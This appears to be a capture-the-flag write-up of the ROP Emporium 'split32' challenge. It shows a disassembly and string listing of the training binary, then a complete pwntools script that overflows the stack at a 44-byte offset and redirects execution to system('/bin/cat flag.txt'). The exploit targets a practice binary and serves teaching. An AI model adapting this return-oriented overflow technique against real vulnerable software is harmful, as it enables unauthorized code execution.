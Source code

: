 This is the disassebly of the usefulFunction in split32:

```asm
┌ 25: sym.usefulFunction ();
│           0x0804860c      55             push ebp
│           0x0804860d      89e5           mov ebp, esp
│           0x0804860f      83ec08         sub esp, 8
│           0x08048612      83ec0c         sub esp, 0xc
│           0x08048615      680e870408     push str._bin_ls            ; 0x804870e ; "/bin/ls" ; const char *string
│           0x0804861a      e8c1fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0804861f      83c410         add esp, 0x10
│           0x08048622      90             nop
│           0x08048623      c9             leave
└           0x08048624      c3             ret
```

Here we have the **system function at 0x0804861a** and the pointer to the string '/bin/ls' is placen into the stack. So in this case 
we don't need a gadget we just need to append the address of the string '/bin/cat flag.txt' after the address of the system function.


```
[0x08048430]> rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```

The string '/bin/cat flag.txt' is placed at 0x0804a030. We have all that we need in order to win this challenge.


```python
from pwn import *
context.binary = elf = ELF('./split32')
offset = 44

call_system = 0x804861a
flag_string = 0x804a030

payload = b'c'*offset+p32(call_system)+p32(flag_string) 

p = elf.process()
p.recv()
p.sendline(payload)
log.info(p.recvall())
```

